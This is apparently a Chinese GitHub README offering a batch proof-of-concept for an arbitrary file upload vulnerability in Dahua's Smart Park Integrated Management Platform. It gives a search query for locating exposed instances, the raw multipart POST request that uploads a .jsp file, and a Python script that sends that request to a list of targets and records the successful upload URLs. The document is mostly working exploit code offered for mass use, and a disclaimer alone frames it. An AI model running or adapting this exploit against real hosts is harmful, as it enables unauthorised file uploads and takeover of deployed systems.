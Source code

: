 # 大华智慧园区综合管理平台任意文件上传漏洞 批量检测POC

## 免责申明
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

基于已公开的poc进行编写批量检测python脚本



### 0x1 漏洞简介

大华智慧园区综合管理平台是一个集智能化、信息化、网络化、安全化为一体的智慧园区管理平台，旨在为园区提供一站式解决方案，包括安防、能源管理、环境监测、人员管理、停车管理等多个方面。
大华智慧园区综合管理平台存在在野 0day 漏洞，攻击者可以通过请求/emap/devicePoint_addImgIco接口任意上传文件，导致系统被攻击与控制。



### 0x2 测绘语法

```
app="dahua-智慧园区综合管理平台"
```



### 0x3 已公开POC

```
POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1
Content-Type: multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36 Edg/110.0.1587.69
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 243
Connection: close

--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
Content-Disposition: form-data; name="upload"; filename="1ndex.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

123
--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--
```



### 0x4 根据poc编写批量检测脚本

```
import argparse
import time
import requests

parser = argparse.ArgumentParser(description='大华智慧园区综合管理平台任意文件上传 批量PoC')
parser.add_argument('-f',help='Batch detection file name',type=str)
args = parser.parse_args()
file = args.f

def get_url(file):
    with open('{}'.format(file),'r',encoding='utf-8') as f:
        for i in f:
            i = i.replace('\n', '')
            send_req("http://"+i)

def write_result(content):
    f = open("result.txt", "a", encoding="UTF-8")
    f.write('{}\n'.format(content))
    f.close()


def send_req(url_check):
    print('{} runing Check'.format(url_check))
    url = url_check + '/emap/devicePoint_addImgIco?hasSubsystem=true'
    header = {
        'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36 Edg/110.0.1587.69',
        'Content-Type':'multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT',
        'Accept':'text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2',
        'Connection':'close'
    }
    data = (
        "--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT\r\n"
        'Content-Disposition: form-data; name="upload"; filename="1ndex.jsp"\r\n'
        "Content-Type: application/octet-stream\r\n"
        "Content-Transfer-Encoding: binary\r\n"
        "\r\n"
        "123\r\n"
        "--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--"
    )
    try:
        requests.packages.urllib3.disable_warnings()
        response = requests.post(url=url,headers=header,data=data,verify=False,timeout=3).json()
        if response['code'] == 1:
            result = '{} 存在任意文件上传漏洞! 请访问目标自测：{} \n'.format(url_check,
                                                            url_check + "/upload/emap/society_new/" + response['data'])
            print(result)
            write_result(result)
        time.sleep(1)
    except Exception as e:
        print(e)
        pass

if __name__ == '__main__':
    if file is None:
        print('请在当前目录下新建需要检测的url.txt')
    else:
        get_url(file)
```

### 0x5 食用方法

1、准备一个url.txt，例如：

<img src="./images/微信截图_20230711105028.png" style="zoom:50%;" />

2、执行

```
python dahua_check.py -f url.txt
```



![微信截图_20230711105248](./images/微信截图_20230711105248.png)

![微信图片编辑_20230711105427](./images/\微信图片编辑_20230711105427.jpg)

3、检测出有任意文件上传漏洞的资产会保存在同目录result.txt文件中

![微信截图_20230711104138](./images/微信截图_20230711104138.png)

4、访问一个目标测试一下是否上传成功

![微信截图_20230711110001](./images/微信截图_20230711110001.png)
